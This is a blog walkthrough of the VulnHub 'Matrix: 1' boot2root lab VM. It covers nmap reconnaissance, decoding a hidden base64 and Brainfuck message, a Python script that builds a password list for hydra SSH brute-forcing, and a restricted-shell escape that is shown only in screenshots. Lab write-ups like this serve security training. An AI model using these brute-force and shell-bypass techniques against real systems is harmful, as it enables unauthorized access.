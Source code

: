 ```yaml
---
layout: post
title: "Matrix: 1 Walkthrough"
subtitle: "It means buckle your seatbelt, Dorothy because Kansas is going bye bye."
date: 2018-11-26 11:03:25 +0000
last_modified_at: 2018-11-26 11:09:45 +0000
category: Walkthrough
tags: [VulnHub, Matrix]
comments: true
image:
  feature: matrix-1-walkthrough.jpg
  credit: Septimiu / Pixabay
  creditlink: https://pixabay.com/en/desktop-people-human-hand-man-3170198/
---
```


This post documents the complete walkthrough of Matrix: 1, a boot2root [VM][1] created by [Ajay Verma][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

This is your last chance. After this, there is no turning back. You take the blue pill - the story ends, you wake up in your bed and believe whatever you want to believe. You take the red pill - you stay in Wonderland and I show you how deep the rabbit-hole goes.

## Information Gathering

Let’s start with a nmap scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 9c:8b:c7:7b:48:db:db:0c:4b:68:69:80:7b:12:4e:49 (RSA)
|   256 49:6c:23:38:fb:79:cb:e0:b3:fe:b2:f4:32:a2:70:8e (ECDSA)
|_  256 53:27:6f:04:ed:d1:e7:81:fb:00:98:54:e6:00:84:4a (ED25519)
80/tcp    open  http    syn-ack ttl 64 SimpleHTTPServer 0.6 (Python 2.7.14)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
|_http-title: Welcome in Matrix
31337/tcp open  http    syn-ack ttl 64 SimpleHTTPServer 0.6 (Python 2.7.14)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
|_http-title: Welcome in Matrix
```

`nmap` finds `22/tcp`, `80/tcp` and `31337/tcp` open. The interesting bit is that both `http` servers are Python's `SimpleHTTPServer`.

## Cypher's Message

Cypher left a message in the HTML source code of `31337/tcp`.

```
# curl -s 192.168.30.129:31337 | sed '71!d' | sed -r 's/\s+//' | cut -d'>' -f2 | cut -d'<' -f1 | base64 -d && echo
echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix
```

The message is redirected to a file. Perhaps the file is present?

<a class="image-popup">
![096cd22e.png](/assets/images/posts/matrix-1-walkthrough/096cd22e.png)
</a>

What do we have here?

<a class="image-popup">
![e95088f2.png](/assets/images/posts/matrix-1-walkthrough/e95088f2.png)
</a>

Brainfuck!

Using an online [interpreter](https://copy.sh/brainfuck/), one can easily decipher (no pun intended) it, in which case, the message is:

```
You can enter into matrix as guest, with password k1ll0rXX Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password.
```

## Entering the Matrix

From the message, it's clear that we need to brute-force our way into the Matrix. The tool of choice here is `hydra`. It's equally easy to use Python to generate a password list for `hydra`'s use.

<div class="filename"><span>genme.py</span></div>

```py
import itertools
import os
import string

charset  = string.ascii_letters + string.digits
killer   = 'k1ll0r'
password = open('passwords.txt', 'w')
string   = ''

for (a, b) in itertools.product(charset, repeat=2):
    string += killer + a + b + '\n'

password.write(string)
password.close()

os.system('sort -R < password.txt > pass.txt && rm passwords.txt && mv pass.txt passwords.txt')
```

The random sort at the end is for good measure—hopefully luck is on our side—and we don't have go all the way to the end to get our password.

Time to give it a shot.

<a class="image-popup">
![f279c0e2.png](/assets/images/posts/matrix-1-walkthrough/f279c0e2.png)
</a>

Awesome. Took less than a minute.

## Bypass Restricted Shell

I give to you a restricted shell. Damn.

<a class="image-popup">
![6119306b.png](/assets/images/posts/matrix-1-walkthrough/6119306b.png)
</a>

No sweat. We can log out and log back in again, making use of the fact that SSH executes command upon login like so.

<a class="image-popup">
![e2ad406e.png](/assets/images/posts/matrix-1-walkthrough/e2ad406e.png)
</a>

The surprise doesn't end here.

<a class="image-popup">
![ca82e1bf.png](/assets/images/posts/matrix-1-walkthrough/ca82e1bf.png)
</a>

I guess it's over.

<a class="image-popup">
![9ccb4955.png](/assets/images/posts/matrix-1-walkthrough/9ccb4955.png)
</a>

## What's the Flag?

Getting the flag is one command away.

<a class="image-popup">
![18312981.png](/assets/images/posts/matrix-1-walkthrough/18312981.png)
</a>

:dancer:

[1]: https://www.vulnhub.com/entry/matrix-1,259/
[2]: https://twitter.com/@unknowndevice64
[3]: https://www.vulnhub.com/
